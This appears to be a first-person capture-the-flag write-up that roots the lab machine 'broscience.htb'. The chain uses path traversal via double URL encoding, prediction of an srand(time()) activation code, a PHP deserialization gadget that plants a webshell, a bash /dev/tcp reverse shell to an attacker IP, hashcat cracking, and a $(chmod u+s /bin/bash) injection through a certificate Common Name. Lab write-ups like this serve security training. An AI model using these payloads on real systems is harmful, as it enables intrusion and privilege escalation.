






Exploitation Summary
Exploitation process: The attack began by discovering a path traversal
vulnerability in the img.php file that required double URL encoding to bypass
filters, allowing me to read arbitrary files from the system including PHP source code. By
analyzing the downloaded source code, I identified a weakness in the activation code generation
function that used srand(time()) with predictable seeding, enabling me to
brute-force activation codes within a narrow time window and activate my user account.
Once authenticated, I discovered that the application used insecure deserialization on the
user-prefs cookie without validation. Leveraging the AvatarInterface
and Avatar classes present in the codebase with their __wakeup() magic
method, I crafted a malicious serialized object that read my PHP session file (which I had
poisoned with a webshell by changing my username) and wrote it to a new accessible PHP file,
achieving remote code execution as www-data.
After obtaining database credentials through the path traversal, I cracked MD5 password hashes
(salted with a known salt) using hashcat, gaining lateral access as user bill. For
privilege escalation, I discovered a certificate renewal script executed periodically by root
via cron that was vulnerable to command injection through shell variable expansion in the
certificate's Common Name field. By crafting a malicious certificate with
$(chmod u+s /bin/bash) as the CN and placing it where the cron job expected, I
successfully made bash SUID when root executed the script, allowing me to spawn a root shell.
Technologies/Exploits: Path traversal with double URL encoding bypass, predictable PRNG seed exploitation in PHP, insecure PHP deserialization attack using magic methods, PostgreSQL hash cracking, OpenSSL command injection via variable expansion abuse in bash scripts.
Initial Reconnaissance
I start with an nmap scan to enumerate the target machine's open ports and services:

The scan reveals SSH on port 22 and HTTP/HTTPS web services on ports 80 and 443. I add
broscience.htb to my /etc/hosts file to properly resolve the domain.
Web Enumeration
Navigating to the website, I discover it's a fitness/bodybuilding themed application with user registration, login functionality, and exercise pages. When I register a new user, the application prompts me to check my email for an activation code. Attempting to log in with the unactivated account results in an error message stating the account hasn't been activated yet.
Running gobuster to discover hidden directories and files, I find several interesting endpoints:
200 GET 29l 70w 1309c https://broscience.htb/user.php
200 GET 28l 71w 1322c https://broscience.htb/exercise.php
200 GET 1l 4w 39c https://broscience.htb/includes/img.php
200 GET 42l 97w 1936c https://broscience.htb/login.php
200 GET 147l 510w 9301c https://broscience.htb/index.php
200 GET 45l 104w 2161c https://broscience.htb/register.php
302 GET 1l 3w 13c https://broscience.htb/comment.php
301 GET 9l 28w 321c https://broscience.htb/includes
302 GET 0l 0w 0c https://broscience.htb/logout.phpPath Traversal Discovery
The /includes/img.php endpoint immediately catches my attention. When I visit it
directly, I see an error message:

Testing for path traversal by adding a path parameter reveals interesting behavior:

Standard path traversal attempts using ../ sequences are being filtered. Single URL
encoding (..%2F) is also blocked:

However, the vulnerability can be exploited using double URL encoding. By encoding
the % symbol itself as %25, making ../ become
..%252F, I successfully bypass the filter:
curl "https://broscience.htb/includes/img.php?path=..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd" -k | grep bashThis returns user accounts with bash shells:
root:x:0:0:root:/root:/bin/bash
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bashI create a Python script to automate this process and make file system exploration more convenient.
Extracting Source Code and Credentials
Using the path traversal vulnerability, I extract the PHP source files from
/var/www/html/. In the database configuration file, I find credentials:
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";These credentials don't work for SSH as user bill or root, so I continue
investigating other attack vectors.
I check the Apache configuration to see if log poisoning might be possible. The logs should be in
/var/log/apache2/, but attempting to read them returns nothing—likely the web server
user lacks read permissions. PHP filter wrappers also don't yield results.
Activation Code Vulnerability Analysis
Examining all downloaded PHP files, I discover a critical vulnerability in
utils.php—specifically in the activation code generation function:
function generate_activation_code() {
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
srand(time());
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
$activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
return $activation_code;
}This function has a severe security flaw: it seeds the random number generator using
srand(time()), which uses the current Unix timestamp. Since I know approximately when
the activation code is generated (immediately upon registration), I can brute-force possible codes
within a narrow time window.
Brute-forcing the Activation Code
I develop a PHP script using an LLM assistant that generates activation codes for timestamps within a 10-second window before and after registration. The script fetches the server time, then systematically generates codes for each possible seed:
php attack_generator.phpThe output shows the successful brute-force:
[*] Fetching server time...
[*] Server time: Fri, 26 Dec 2025 13:01:07 GMT (1766754067)
[*] Brute-forcing seeds from 1766754057 to 1766754077...
Testing Seed 1766754066: 2gXzAyXCRxVo6XZ0KnpSY0Hlw1zPm1bB
[+] SUCCESS!
[+] Seed found: 1766754066
[+] Activation Code: 2gXzAyXCRxVo6XZ0KnpSY0Hlw1zPm1bBUsing this activation code, I successfully activate my account and can now fully access the application.
PHP Deserialization Vulnerability
After logging in, I investigate all application functionality. While there don't appear to be SQL injection vulnerabilities, I notice an unusual cookie that wasn't present before:
user-prefs=Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30%3DThe %3D is URL encoding for =, suggesting this is base64 encoded data.
Decoding it reveals:
echo "Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30=" | base64 -dO:9:"UserPrefs":1:{s:5:"theme";s:5:"light";}This is a serialized PHP object! Searching through the source code, I find where this cookie is processed:
if (isset($_SESSION['id'])) {
if (!isset($_COOKIE['user-prefs'])) {
$up_cookie = base64_encode(serialize(new UserPrefs()));
setcookie('user-prefs', $up_cookie);
} else {
$up_cookie = $_COOKIE['user-prefs'];
}
$up = unserialize(base64_decode($up_cookie));
return $up->theme;
}The critical issue here is that the application calls unserialize() directly on
user-controlled input from the cookie without any validation. This is a textbook insecure
deserialization vulnerability.
Identifying Gadget Classes
For a successful deserialization attack, I need to find "gadget" classes in the codebase that can be
abused. Conveniently, there are two classes for a future avatar feature (marked with a TODO comment
in user.php):
class Avatar {
public $imgPath;
public function __construct($imgPath) {
$this->imgPath = $imgPath;
}
public function save($tmp) {
$f = fopen($this->imgPath, "w");
fwrite($f, file_get_contents($tmp));
fclose($f);
}
}
class AvatarInterface {
public $tmp;
public $imgPath;
public function __wakeup() {
$a = new Avatar($this->imgPath);
$a->save($this->tmp);
}
}The AvatarInterface class has a __wakeup() magic method, which is
automatically called by PHP when an object is unserialized. According to the PHP
documentation, "unserialize() checks for the presence of a function with the magic name
__wakeup()."
The attack chain works as follows:
- Create a serialized
AvatarInterfaceobject with controlled$tmpand$imgPathproperties - When unserialized,
__wakeup()is automatically called - This creates an
Avatarobject with our controlled$imgPath - The
save()method reads the file at$tmpusingfile_get_contents() - The content is written to the file specified in
$imgPath
Exploiting Deserialization for RCE
My strategy is to:
- Change my username to a PHP webshell via the user profile update functionality
- Create a malicious serialized object that reads my PHP session file (which contains my username/webshell)
- Write that session content to a new accessible PHP file
- Execute commands through the newly created webshell
Step 1: Poisoning the Session File
I change my username to a PHP webshell payload through the user update functionality:

Step 2: Creating the Malicious Serialized Object
I create a PHP script that generates the malicious serialized cookie:
imgPath = $imgPath;
}
public function save($tmp) {
$f = fopen($this->imgPath, "w");
fwrite($f, file_get_contents($tmp));
fclose($f);
}
}
class AvatarInterface {
public $tmp;
public $imgPath;
public function __wakeup() {
$a = new Avatar($this->imgPath);
$a->save($this->tmp);
}
}
$avatar_interface = new AvatarInterface();
$avatar_interface->tmp = "/var/lib/php/sessions/sess_jpo8v40orkkava8bb8h9em11a9";
$avatar_interface->imgPath = "./shell.php";
$cookie = base64_encode(serialize($avatar_interface));
echo $cookie;
?>This script creates an AvatarInterface object that will read my poisoned session file
and write it to shell.php in the web root.
Step 3: Triggering the Exploit
I replace my user-prefs cookie with the malicious serialized object and refresh the
page. The application deserializes my object, triggering the __wakeup() method, which
successfully creates the webshell:

Step 4: Getting a Reverse Shell
Now I can execute commands through the webshell. I send myself a reverse shell using this payload:
https://broscience.htb/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26/dev/tcp/10.10.16.2/443%200%3E%261%22On my netcat listener:
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.233] 56104
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
www-data@broscience:/var/www/html$I now have shell access as www-data.
Lateral Movement to User Bill
Exploring the system, I find a user named bill in /home. I also notice a
script in /opt called renew_cert.sh owned by root, which I suspect will be
useful for privilege escalation later.
Remembering the PostgreSQL credentials I found earlier, I connect to the database and extract password hashes:
SELECT username, password FROM users;I retrieve several MD5 hashes:
15657792073e8a843d4f91fc403454e1 (admin)
13edad4932da9dbb57d9cd15b66ed104 (bill)
bd3dad50e2d578ecba87d5fa15ca5f85 (michael)
a7eed23a7be6fe0d765197b1027453fe (john)
5d15340bded5b9395d5d14b9c21bc82b (dmytro)From the database configuration file, I know these hashes are salted with NaCl using the
format md5($salt . $password). This corresponds to hashcat mode 20:
20 | md5($salt.$pass) | Raw Hash, Salted and/or IteratedI create a file with the hashes in the proper format (hash:salt) and run hashcat:
hashcat -m 20 hashes.txt /usr/share/wordlists/rockyou.txtThree hashes successfully crack:
bill => 13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
dmytro => 5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest
michael => bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2applesBill's credentials work for SSH, allowing me to log in as bill and retrieve the user
flag.
Privilege Escalation - Certificate Renewal Script Analysis
After gaining access as bill, I investigate potential privilege escalation vectors. I don't have sudo privileges to run the certificate renewal script directly, and it's not SUID either. My hypothesis is that the script runs periodically as root.
To confirm this, I transfer pspy64 to the target machine and execute it to monitor
running processes. After a short wait, I observe:
2025/12/26 10:52:01 CMD: UID=0 PID=5632 | /bin/bash /root/cron.sh
2025/12/26 10:52:01 CMD: UID=0 PID=5633 | timeout 10 /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt
2025/12/26 10:52:01 CMD: UID=0 PID=5634 | /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crtPerfect! Root is executing the script periodically via cron, looking for a certificate at
/home/bill/Certs/broscience.crt and passing it as an argument.
Analyzing the Vulnerable Script
Examining the renew_cert.sh script, I find this vulnerable line:
/bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"The $commonName variable is extracted from the certificate's Common Name field. The
critical vulnerability here is that bash will perform command substitution on this
variable before executing the command. If I can inject a command using the $(command)
syntax in the Common Name field, it will be executed as root.
Testing Command Injection
I create a test certificate with a malicious Common Name to verify the vulnerability:
openssl req -x509 -nodes -newkey rsa:2048 -keyout /dev/null -out /tmp/xd.crt -days 1When prompted for the Common Name, I enter: $(id)
Manually executing the script on this certificate shows:
/opt/renew_cert.sh /tmp/xd.crtC = AU, ST = Some-State, O = Internet Widgits Pty Ltd, OU = section, CN = $(id)
Country => AU
State => Some-State
Locality =>
Org Name => Internet Widgits Pty Ltd
Org Unit => section
Common Name => $(id)
Email =>
Generating certificate...
mv: target 'groups=1000(bill).crt' is not a directoryThe error message reveals that the id command was executed! The output shows
groups=1000(bill), proving command injection works.
Exploiting Command Injection for Root
Now I'll create a malicious certificate that will be picked up by the cron job. My payload will make
/bin/bash SUID, allowing me to spawn a root shell:
openssl req -x509 -nodes -newkey rsa:2048 -keyout /dev/null -out /home/bill/Certs/broscience.crt -days 1For the Common Name, I use: $(chmod u+s /bin/bash)
This generates a certificate at the exact location where the cron job expects to find it. When root executes the script on this certificate, the command substitution will trigger, making bash SUID.
After waiting for the cron job to execute, I verify that bash is now SUID:
ls -la /bin/bash-rwsr-xr-x 1 root root 1234376 Mar 27 2022 /bin/bashPerfect! Now I can spawn a root shell using bash's -p flag (which preserves the SUID
privileges):
bash -pbash-5.1# id
uid=1000(bill) gid=1000(bill) euid=0(root) groups=1000(bill)
bash-5.1# cat /root/root.txtI successfully retrieve the root flag and complete the machine.